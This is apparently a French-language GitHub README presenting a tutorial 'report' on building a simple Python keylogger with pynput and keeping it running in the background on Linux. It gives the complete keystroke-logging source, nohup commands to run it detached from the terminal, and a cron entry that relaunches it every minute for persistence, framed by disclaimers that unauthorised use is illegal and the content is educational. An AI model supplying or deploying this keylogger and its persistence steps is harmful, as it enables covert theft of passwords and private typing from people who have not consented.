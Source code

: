 # keylogger-


# 📄 Rapport : Création et Lancement d'un Keylogger en Arrière-plan avec `nohup`

---

## 📌 Objectif
Ce rapport vise à expliquer la **création d'un keylogger basique en Python** et son lancement en arrière-plan sur un système Linux en utilisant la commande `nohup`. L'objectif est de permettre au keylogger de rester actif même après la fermeture du terminal, garantissant ainsi la capture continue des frappes.

---

## 🛠️ **1. Introduction**

Un keylogger est un programme qui enregistre les frappes effectuées par l'utilisateur sur un clavier. Dans ce rapport, nous allons aborder :

1. **La création d'un keylogger simple avec Python.**
2. **Son lancement en arrière-plan en utilisant `nohup`.**

⚠️ **Éthique :** L'utilisation d'un keylogger peut être illégale dans certaines juridictions si elle est utilisée sans le consentement explicite des utilisateurs. Ce rapport est destiné uniquement à des fins éducatives.

---

## 🏗️ **2. Création du Keylogger**

### 📄 **2.1. Code Source**

Pour créer un keylogger simple, nous utilisons le module `pynput` qui permet de capturer les frappes (keypress) d'un clavier.

```python
from pynput.keyboard import Listener

# Fichier pour enregistrer les frappes
log_file = "keylogger.txt"

def on_press(key):
    try:
        # Enregistre la touche pressée
        with open(log_file, "a") as file:
            file.write(f"{key.char}")
    except AttributeError:
        # Cas des touches spéciales (Shift, Ctrl, etc.)
        with open(log_file, "a") as file:
            file.write(f"[{key}]")

# Détecter les frappes
with Listener(on_press=on_press) as listener:
    listener.join()
```

---

### 🖥️ Explications du Code
1. **Importation de `Listener` :**  
   - `from pynput.keyboard import Listener`
   Le module `pynput.keyboard.Listener` écoute les frappes.

2. **Fonction `on_press` :**  
   - Captures normales : `key.char`
   - Captures des touches spéciales : `"[{key}]"`

3. **Écoute des frappes :**  
   - `with Listener(on_press=on_press) as listener:`  
   Permet de démarrer l'écoute des frappes.

---

## 🚀 **3. Lancer le Keylogger en Arrière-plan avec `nohup`**

La commande `nohup` est utilisée pour permettre à un processus de s'exécuter en arrière-plan même après la fermeture du terminal. C'est la meilleure pratique pour que le processus reste actif.

### 📌 **Commandes**

1. **Exécution avec `nohup` :**
   ```bash
   nohup python3 keylogger.py &
   ```

   - **`nohup` :** Permet au processus de continuer à s'exécuter même après la déconnexion ou la fermeture du terminal.
   - **`&` :** Permet de lancer le processus en arrière-plan.

---

### 🔎 **Vérification du processus**

Pour vérifier que le keylogger est bien en cours d'exécution après la commande :

```bash
ps aux | grep keylogger.py
```

---

### ❌ **Pour arrêter le processus**
Si vous avez besoin d'arrêter le keylogger, utilisez la commande suivante :

```bash
pkill -f keylogger.py
```

---

## 🛠️ **4. Éléments Techniques**

1. **Fichier `keylogger.txt` :**  
   Toutes les frappes capturées sont enregistrées dans ce fichier.

2. **`nohup.out` :**  
   Par défaut, la sortie standard est redirigée vers le fichier `nohup.out`. Si vous souhaitez spécifier un autre fichier de log, vous pouvez faire comme suit :
   ```bash
   nohup python3 keylogger.py > output.log &
   ```

3. **Permissions :**  
   Assurez-vous que l'utilisateur a bien les permissions nécessaires pour lancer `nohup`.

---

## 🚩 **5. Limites et Considérations**

### 🚩 **1. Éthique et Légalité**
Créer et déployer un keylogger sur une machine sans le consentement de l'utilisateur est **illégal dans la majorité des pays**.

- **Utilisation uniquement dans un contexte éthique et éducatif.**
- **Consentement préalable requis dans le cas d'applications réelles.**

---

### 🚩 **2. Redémarrages**
Si le processus est accidentellement fermé, utilisez `cron` pour surveiller et redémarrer le keylogger automatiquement.

Exemple avec `cron` :
```bash
crontab -e
```
Ajoutez cette ligne pour lancer le keylogger toutes les minutes :
```cron
* * * * * nohup python3 /home/kali/Desktop/keylogger.py &
```

---

## 🎓 **6. Conclusion**

Dans ce rapport, nous avons abordé la création d'un keylogger simple avec Python et son lancement en arrière-plan avec `nohup`. Cette approche garantit que le processus reste actif même après la fermeture du terminal.

Les systèmes Linux permettent de gérer ces processus avec des commandes comme `nohup` et `systemd` pour assurer un fonctionnement fiable.

⚠️ **Rappel : Veillez toujours à respecter la législation en vigueur lorsque vous effectuez ce type de tests ou déploiements.**

---

📌 **Fichier clé :**  
- `keylogger.py`

📌 **Commandes clés pour le lancement :**
```bash
nohup python3 keylogger.py &
ps aux | grep keylogger.py
```

---

**Bonne pratique :** Pour des tests ou de la recherche, configurez toujours un environnement virtuel sécurisé pour éviter tout risque.

---

